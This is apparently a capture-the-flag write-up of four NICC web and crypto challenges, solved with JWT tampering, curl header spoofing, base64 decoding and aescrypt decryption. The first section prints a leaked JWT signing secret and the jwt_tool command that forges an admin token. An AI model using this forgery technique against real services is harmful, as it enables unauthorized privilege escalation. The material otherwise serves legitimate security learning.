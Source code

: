 **Web: Jasons Baking Services**
First, i will analyze the code, in the `router.js` i found.
```
route.get('/flag', authenticateJson, (req, res) => {
    if (!req.user) {
        res.render('index')
    } else {
        if (req.user.admin == true) {
            res.send("// Print Flag Here")
        } else {
            res.render('dashboard', {name: req.user.name})
        }
    }

```
If i register with a user, the platform will generate an access token for which was the `jwt`.
```
        if (user) {
            bcrypt
                .compare(req.body.password, user.Password, function (err, result) {
                    if (result) {
                        const user = {
                            name: username,
                            authorized: true,
                            admin: false
                        }
                        const accessToken = generateAccessToken(user)
                        req.session.username = username
```
in `the config.env` i found the secret key which sign the `jwt`. 
`SECRET=y5ABWPpr76vyLjWxZQZvxpFZuprCwAZa6HhWaaDgS7WBEbzWWceuAe45htGLa`. Now i will register and then tamper my jwt using Jwt tool
I intercepted it with burp and see the jwt, i change the admin false to True, I will tamper it now.
```
└─# python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYmxvaGFja2VyIiwiYXV0aG9yaXplZCI6dHJ1ZSwiYWRtaW4iOmZhbHNlLCJpYXQiOjE2OTg3NzE4MTksImV4cCI6MTY5ODc3MjExOX0.C2qPzFUdBoDcMVbMzqCZGn8N2gcaOR7S1NJZARUHdQA -T -p y5ABWPpr76vyLjWxZQZvxpFZuprCwAZa6HhWaaDgS7WBEbzWWceuAe45htGLa -S hs256
```
or use this : http://jwt.io/
Then just change cookie on burp. and got flag.

**Web: Aliens Make Me Wanna Curl**
We are expecting communications from an artificial intelligence device called MU-TH-UR 6000, referred to as mother by the crew. We disabled the login page and implemented a different method of authentication. The username is mother and the password is ovomorph. To ensure security, only mothers specific browser is allowed.
Here i need to use curl to get the flag.
` curl -u mother:ovomorph -H "User-Agent: MU-TH-UR 6000"  https://spooky-aliens-make-me-wanna-curl-web.chals.io/flag          
NICC{dOnt_d3pEnD_On_h3AdeRs_4_s3eCu1ty}`

**Crypto: What have we found here...**
I found a lot of base64 in file, i tried cyberchef but size is limited,
Then i tried,
```
base64 -d file.txt | less
<FF><D8><FF><E0>^@^PJFIF^@^A^A^A^@`^@`^@^@<FF><DB>^@C^@^C^B^B^C^B^B^C^C^C^C^D^C^C^D^E^H^E^E^D^D^E
```
i found JFIF, i think it's a picture, i will decode into a jpeg/
```
└─# base64 -d found.txt > flag.jpg
file flag.jpg
flag.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, baseline, precision 8, 1080x1077, components 3

```
Opened image and found the flag.`NICC{Just_chillin}`
**Crypto: If the key fits...**
I am trying to escape this 64-story horror house and the only way to escape is by finding the flag in this text file! Can you help me crack into the file and get the flag? The only hint I get is this random phrase: `MWwwdjM1eW1tM3RyMWNrM3Q1ISEh`
When i decoded this from base64, i found `1l0v35ymm3tr1ck3t5!!!`, but it's the incorrect flag.
Ok, So now i cat the   `flag.txt.aes` and found this shit:
```
AES&CREATED_BYaescrypt (Windows GUI) 3.10�}�ܟ_pp׏����Ƃ����\���P͝�f#��8F�cZa��F�u���z�
             ���V�v��C����/Q�^bp�it9?
                                     ��/�Z�:'��u1��
                                                   eXh��2g�'�J��z2 �w{D%���J{)�i�L�
��9M���@l�z&�$a�n?��&�7��z��    b��o< 
```
using the name encoded `CREATED BY aescrypt`I found a tool named aescryt: https://www.aescrypt.com/linux_aes_crypt.html
The i use the password: `1l0v35ymm3tr1ck3t5!!!` to decode it and find flag.txt
```
└─# cat flag.txt
Congrats on finding the flag!

NICC{1-4m-k3yn0ugh!} 

```